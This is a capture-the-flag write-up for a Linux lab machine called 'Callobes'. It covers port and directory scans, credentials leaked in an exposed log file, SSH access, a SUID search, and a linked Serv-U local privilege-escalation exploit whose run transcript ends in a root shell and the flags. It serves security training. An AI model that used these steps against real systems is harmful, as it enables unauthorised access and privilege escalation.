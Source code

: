# Callobes
## High Level Overview
"Callobes" is a Linux-based easy Capture The Flag (CTF) machine that presents an engaging and challenging cybersecurity scenario. Here's a brief overview:
This machine features both a web server and an SSH server. The web server has Path Traversal vulnerability hiding a crucial piece of information, specifically credentials, within a file. 
Upon successfully gaining an initial foothold, you'll discover a setuid binary named "Serv-u." This binary holds the key to escalating your privileges and potentially achieving root access on the system.
"Callobes" promises to challenge your skills in web exploitation, Linux privilege escalation, and potentially other areas of cybersecurity, making it an exciting platform for honing your penetration testing abilities.

## Enumerating the target
Run a full-range port scan to find all open ports.

```
┌──(kali㉿kali)-[~]
└─$ nmap -p- 192.168.121.129
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-05 19:10 EDT
Nmap scan report for 192.168.121.129
Host is up (0.00028s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.93 seconds

```
Nmap found two tcp ports (22, 80)

Navigating to the IP address in a browser we see the following.

![Alt text](Screenshots\image-2.png)

let’s run a dirbuster:
```
┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.121.129             

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Oct  5 19:47:57 2023
URL_BASE: http://192.168.121.129/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.121.129/ ----
+ http://192.168.121.129/index.html (CODE:200|SIZE:10918)                                                                                                                                                         
==> DIRECTORY: http://192.168.121.129/javascript/                                                                                                                                                                 
+ http://192.168.121.129/phpinfo.php (CODE:200|SIZE:95537)                                                                                                                                                        
==> DIRECTORY: http://192.168.121.129/phpmyadmin/                                                                                                                                                                 
+ http://192.168.121.129/robots.txt (CODE:200|SIZE:31)                                                                                                                                                            
+ http://192.168.121.129/server-status (CODE:403|SIZE:280)   

```
With dirbuster we have an access directory, as well as an index.html, and robots.txt file 
As seen above we see a directory named robots.txt. 

First, navigate to the robots.txt file. We have four words in the robots.txt directory, as seen below. 

![Alt text](Screenshots\image-3.png)

We just only have access to the Shimishao directory.

We can use the dirbuster tool again in the Shimishao directory
```
┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.121.129/shimishao

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Oct  5 19:58:42 2023
URL_BASE: http://192.168.121.129/shimishao/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.121.129/shimishao/ ----
==> DIRECTORY: http://192.168.121.129/shimishao/admin/                                                                                                                                                            
==> DIRECTORY: http://192.168.121.129/shimishao/data/                                                                                                                                                             
+ http://192.168.121.129/shimishao/index.php (CODE:200|SIZE:6597)                                                                                                                                                 
==> DIRECTORY: http://192.168.121.129/shimishao/js/                                                                                                                                                               
==> DIRECTORY: http://192.168.121.129/shimishao/languages/                                                                                                                                                        
==> DIRECTORY: http://192.168.121.129/shimishao/lib/                                                                                                                                                              
==> DIRECTORY: http://192.168.121.129/shimishao/media/                                                                                                                                                            
==> DIRECTORY: http://192.168.121.129/shimishao/themes/                                                                                                                                                           
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.121.129/shimishao/admin/ ----
==> DIRECTORY: http://192.168.121.129/shimishao/admin/ajax/                                                                                                                                                       
==> DIRECTORY: http://192.168.121.129/shimishao/admin/components/                                                                                                                                                 
==> DIRECTORY: http://192.168.121.129/shimishao/admin/css/                                                                                                                                                        
==> DIRECTORY: http://192.168.121.129/shimishao/admin/img/                                                                                                                                                        
==> DIRECTORY: http://192.168.121.129/shimishao/admin/inc/                                                                                                                                                        
+ http://192.168.121.129/shimishao/admin/index.php (CODE:200|SIZE:8967)                                                                                                                                           
==> DIRECTORY: http://192.168.121.129/shimishao/admin/js/                                                                                                                                                         
==> DIRECTORY: http://192.168.121.129/shimishao/admin/logs/                                                                                                                                                       
==> DIRECTORY: http://192.168.121.129/shimishao/admin/plugins/                                                                                                                                                    

```
As seen above, we can see shmishao/admin/logs directory which is useful for us.
Let's try directly access this directory:

![Alt text](Screenshots\image-4.png)

We see system.log file . Install this and see what we found.
![Alt text](Screenshots\image-5.png)

As seen above we got our credentials for the ubuntu user pred8or. Now we can use these credentials to log in ssh. 

```
┌──(kali㉿kali)-[~]
└─$ ssh pred8or@192.168.121.129
pred8or@192.168.121.129's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.3.0-53-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

74 packages can be updated.
28 updates are security updates.

New release '20.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Tue Oct  3 03:42:01 2023 from 192.168.163.1
pred8or@shimishao:~$ 
```

From there we can see that we have found the user1.txt file. Let's read it via cat user1.txt. We've successfully found the flag!

```
pred8or@shimishao:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user1.txt  Videos
pred8or@shimishao:~$ cat user1.txt
ICSD{66d74978b307889bea234a4bc6570a36}

```

Privilege escelation is the process of going from lower permissions to higher permission. This is done by exploiting vulnerabilities, design flaws or misconfigurations in applications. This process is very important.

By using the following command you can enumerate all binaries having SUID permissions:

```
find / -perm -u=s -type f 2>/dev/null
```
```
pred8or@shimishao:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/arping
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/sbin/pppd
/usr/local/Serv-U/Serv-U


```

Following the execution of the specified command, we have identified the Serv-U with suid (Set User ID) permissions. Let's google it and see what vulnerability we find.

![Alt text](Screenshots\image-6.png)

In Exploit-DB "Serv-U FTP Server < 15.1.7 - Local Privilege Escalation" we found vulnerable version.

https://www.exploit-db.com/exploits/47173

Let's exploit it:

We copy this bash script and run it in our home directory.

```
pred8or@shimishao:~$ ls
b.sh  Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user1.txt  Videos
pred8or@shimishao:~$ bash b.sh
[*] Launching Serv-U ...
sh: 1: : Permission denied
[+] Success:
-rwsr-xr-x 1 root root 1113504 Oct  6 07:12 /tmp/sh
[*] Launching root shell: /tmp/sh
sh-4.4# whoami
root
sh-4.4# cd /root
sh-4.4# ls
root.txt
sh-4.4# cat root.txt
ICSD{45caa8f3afa6fc94aa3c039ceeeb7883}
sh-4.4# 
```

